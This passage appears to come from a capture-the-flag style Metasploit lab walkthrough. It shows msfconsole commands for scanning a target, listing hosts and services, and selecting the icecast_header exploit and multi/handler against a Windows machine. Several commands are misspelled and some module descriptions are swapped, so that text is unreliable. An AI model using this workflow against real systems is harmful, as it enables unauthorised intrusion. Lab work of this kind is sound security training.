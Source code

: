 `Encoder`

* Module is used with buffer overflow and ROP attacks

`NOP`

* Command can we use to load different modules

```bash
msf6 > load
```

![](https://i.imgur.com/RUfhET0.png)

----

## TASK 4 : PRACTICE

* Scanning `IP` using metasploit `nmap_db`

```bash
msf6 > nmap_db -sV $IP
```
![](https://i.imgur.com/PWjHnbL.png)

* What is running on Port **135**

Nmap: **135/tcp**   open  msrpc  **Microsoft Windows RPC**

* Listing `IP` **Hosts**

```bash
msf6 > hosts
```

* Listing `IP` **Services**

```bash
msf6 > Services
```

* Listing `IP` **Exploits**

```bash
msf6 > vluns
```

* Using Exploits Found **icecast**

```bash
msf6 > use icecast
```
![](https://i.imgur.com/UvT4iC9.png)

* Information about Exploit and Full Path

`exploit/windows/http/icecast_header`

* Using Multi Hundler

```bash
msf6 exploit(windows/http/icecast_header) > search multi/handler
msf6 exploit(windows/http/icecast_header) > use 5
```
